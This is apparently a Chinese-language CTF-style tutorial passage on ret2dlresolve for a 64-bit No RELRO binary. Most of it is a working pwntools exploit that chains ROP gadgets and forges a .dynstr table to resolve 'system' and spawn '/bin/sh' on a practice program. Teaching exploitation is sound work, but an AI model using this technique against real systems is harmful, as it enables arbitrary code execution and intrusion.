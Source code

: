 在 No RELRO 下，64 位程序与 32 位相差不大，只在参数传递上有些许差异。

同样是先调用第二次 read，修改参数往 bss 段上伪造 .dynstr 段和 "/bin/sh" 字符串。

再调用第三次 read，篡改 .dynamic 段中 .dynstr 的地址。

```python
#!/bin/python3
from pwn import *

elf = ELF('./bof11')
offset = 0x70+8
read_plt = elf.plt['read']

stack_size = 0x100
bss_addr = 0x600B30
base_stage = bss_addr + stack_size

pop_rdi_ret = 0x400773
pop_rsi_r15_ret = 0x400771
strtab_addr = 0x600988
write_plt_1 = 0x4004E6

p = process('./bof11')
p.recvuntil('\n')

payload  = b'a'*offset
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(pop_rsi_r15_ret)
payload += p64(base_stage)
payload += p64(0)
payload += p64(read_plt)            # read(0, base_stage, 0x100)

payload += p64(pop_rsi_r15_ret)
payload += p64(strtab_addr)
payload += p64(0)
payload += p64(read_plt)            # read(0, strtab_addr, 0x100)

payload += p64(pop_rdi_ret)
payload += p64(base_stage)
payload += p64(pop_rsi_r15_ret)
payload += p64(0)
payload += p64(0)
payload += p64(write_plt_1)

p.sendline(payload)

fake_dynstr  = b'\x00libc.so.6\x00stdin\x00strlen\x00read'
fake_dynstr += b'\x00stdout\x00setbuf\x00__libc_start_main\x00'
fake_dynstr += b'system\x00'

payload2  = b'/bin/sh\x00'
payload2 += fake_dynstr
p.sendline(payload2)

fake_dynstr_addr = base_stage + 0x8

payload3  = p64(0x5)
payload3 += p64(fake_dynstr_addr)
p.sendline(payload3)

p.interactive()
```
